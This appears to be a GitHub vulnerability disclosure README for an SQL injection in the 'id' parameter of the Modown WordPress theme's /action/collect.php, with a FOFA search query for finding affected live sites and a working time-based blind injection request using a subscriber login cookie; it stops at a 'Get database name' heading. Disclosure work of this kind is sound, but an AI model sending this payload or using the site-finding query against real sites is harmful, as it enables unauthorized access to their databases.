



# modown-sql-Injection
In the Wordpress Theme Modown <=9.1 version, there is an SQL injection vulnerability in the "id" parameter of the /action/collect.php file. Attackers can execute arbitrary SQL statements by constructing malicious requests, which may lead to data leakage, data tampering, or other malicious operations.


([Modown Wordpress Theme](https://www.mobantu.com/7191.html) "Click here to download the theme")

There is an SQL injection vulnerability in the "id" parameter of the /action/collect.php file.
The id parameter is directly spliced ​​into the SQL statement without filtering


Authenticated users (only subscriber permissions are needed) can initiate requests to this interface. Specially constructed id parameters can lead to SQL injection, causing database data leakage and further obtaining system control permissions.

## 1.Affected assets

Wordpress websites using this theme can be searched through the fofa engine through the following statement:

**body="/wp-content/themes/modown/style.css"**

or follow this link
([Affected assets](https://fofa.info/result?qbase64=Ym9keT0iL3dwLWNvbnRlbnQvdGhlbWVzL21vZG93bi9zdHlsZS5jc3Mi) )

You can download the Wordpress Theme Modown 9.1 in this repro
and install it 
https://github.com/lambda-s/modown-sql-Injection/blob/main/modown-9.1.zip




### 2.Proof of Concept
Use the logged in user credentials to send the following request,
And Use delayed injection to verify whether the vulnerability exists
```
POST http://127.0.0.1/b2/wp-content/themes/modown/action/collect.php HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_4d5fcc3d94935439d70344b91f1f5e04=yanbochen%7C1752294341%7COZf9zFYCcdstArjuUDuQfze9nNCIVWRqLCEAeF5V54z%7Cc44b7777c014e941d331d38c9b56de20531a6ae3af8afac995a624179e5df07e; wp-settings-time-1=1752121635
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

id=1+AND+(SELECT+1663+FROM+(SELECT(SLEEP(5)))TCke)
```



#### Get database name
